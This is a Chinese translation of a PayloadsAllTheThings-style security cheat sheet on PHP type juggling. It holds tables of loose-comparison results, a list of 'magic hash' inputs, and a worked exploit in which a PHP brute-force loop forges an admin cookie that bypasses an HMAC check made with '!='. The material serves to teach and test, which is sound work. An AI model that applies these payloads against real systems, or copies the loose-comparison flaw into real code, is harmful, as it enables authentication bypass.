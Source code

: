 # 类型转换

> PHP是一种弱类型语言，这意味着它试图预测程序员的意图，并在必要时自动将变量转换为不同的类型。例如，只包含数字的字符串可以被视为整数或浮点数。然而，这种自动转换（或类型转换）可能导致意外的结果，特别是在使用'=='运算符比较变量时，该运算符只检查值相等性（宽松比较），而不是类型和值相等性（严格比较）。

## 摘要

* [宽松比较](#宽松比较)
  * [真实陈述](#真实陈述)
  * [NULL语句](#null-statements)
* [魔术哈希](#magic-hashes)
* [利用](#exploit)
* [参考](#references)

## 宽松比较

> 当在攻击者可以控制被比较变量之一的区域中使用宽松比较（== 或 !=）而不是严格比较（=== 或 !==）时，会出现PHP类型转换漏洞。这种漏洞可能导致应用程序对真或假陈述返回意外的答案，并可能导致严重的授权和/或身份验证错误。

- **宽松**比较：使用`== 或 !=`：两个变量具有“相同的值”。
- **严格**比较：使用`=== 或 !==`：两个变量具有“相同的类型和相同的值”。

### 真实陈述

| 陈述                            |               输出               |
| ------------------------------- | :------------------------------: |
| `'0010e2'   == '1e3'`           |               真实               |
| `'0xABCdef' == ' 0xABCdef'`     | 真实（PHP 5.0）/ 虚假（PHP 7.0） |
| `'0xABCdef' == '     0xABCdef'` | 真实（PHP 5.0）/ 虚假（PHP 7.0） |
| `'0x01'     == 1`               | 真实（PHP 5.0）/ 虚假（PHP 7.0） |
| `'0x1234Ab' == '1193131'`       |               真实               |
| `'123'  == 123`                 |               真实               |
| `'123a' == 123`                 |               真实               |
| `'abc'  == 0`                   |               真实               |
| `'' == 0 == false == NULL`      |               真实               |
| `'' == 0`                       |               真实               |
| `0  == false `                  |               真实               |
| `false == NULL`                 |               真实               |
| `NULL == ''`                    |               真实               |

> PHP8不再尝试将字符串转换为数字，这得益于更明智的字符串到数字比较RFC，意味着以0e开头的哈希等冲突终于成为过去！内部函数的一致类型错误RFC将防止像`0 == strcmp($_GET['username'], $password)`绕过这样的情况，因为strcmp不会再返回null并发出警告，而会抛出适当的异常。

![LooseTypeComparison](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

宽松类型比较在许多语言中都会发生：

* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)

### NULL语句

| 函数 | 陈述                  | 输出 |
| ---- | --------------------- | :--: |
| sha1 | `var_dump(sha1([]));` | NULL |
| md5  | `var_dump(md5([]));`  | NULL |

## 魔术哈希

> 由于PHP类型转换的一个怪癖，当比较字符串哈希与整数时，如果字符串哈希以"0e"开头，后跟仅数字，PHP将其解释为科学计数法，并且在比较操作中将哈希视为浮点数。

| Hash | "魔术"数字/字符串 | Magic Hash                                    | 发现者 / 描述 |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)|

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## 利用漏洞

以下代码中的漏洞在于使用松散比较（!=）来验证$cookie['hmac']与计算出的$hash。

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
	if($cookie['hmac'] != $hash){ // 松散比较
		return false;
		
	}
	else{
		echo "干得好";
	}
}
```

在这种情况下，如果攻击者可以控制$cookie['hmac']值并将其设置为像"0"这样的字符串，并且以某种方式操纵hash_hmac函数返回以"0e"开头且后面只跟数字的哈希（被解释为零），那么条件$cookie['hmac'] != $hash将评估为假，有效地绕过了HMAC检查。

我们可以控制cookie中的3个元素：

- `$username` - 目标用户名，可能是"admin"
- `$expiration` - 一个UNIX时间戳，必须是未来的时间
- `$hmac` - 提供的哈希，"0"

利用漏洞阶段如下：

1. 准备恶意cookie：攻击者准备一个cookie，将$username设置为他们希望冒充的用户（例如，"admin"），$expiration设置为未来的UNIX时间戳，$hmac设置为"0"。

2. 暴力破解$expiration值：然后攻击者暴力破解不同的$expiration值，直到hash_hmac函数生成一个以"0e"开头且后面只跟数字的哈希。这是一个计算密集型过程，根据系统设置可能不可行。但如果成功，此步骤将生成一个"类似零"的哈希。

   ```php
   // docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
   for($i=1424869663; $i < 1835970773; $i++ ){
   	$out = hash_hmac('md5', 'admin|'.$i, '');
   	if(str_starts_with($out, '0e' )){
   		if($out == 0){
   			echo "$i - ".$out;
   			break;
   		}
   	}
   }
   ?>
   ```

3. 使用暴力破解的值更新cookie数据：`1539805986 - 0e772967136366835494939987377058`

   ```php
   $cookie = [
   	'username' => 'admin',
   	'expiration' => 1539805986,
   	'hmac' => '0'
   ];
   ```

4. 在这种情况下，我们假设密钥为空字符串：$key = '';


## 参考

- 利用异类错误类别编写漏洞利用代码：PHP类型转换（[Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)）
- 魔法哈希 - WhiteHatSec（[Magic Hashes - WhiteHatSec](https://www.whitehatsec.com/blog/magic-hashes/)）
- PHP魔术技巧：类型转换（[PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)）
- spaze/hashes - 魔法哈希 – PHP哈希“碰撞”（[spaze/hashes - Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes)）
- （超级）魔法哈希 - 2019年10月7日星期一 - myst404（[(Super) Magic Hashes - Mon 07 October 2019 - myst404 (@myst404_)](https://offsec.almond.consulting/super-magic-hash.html)）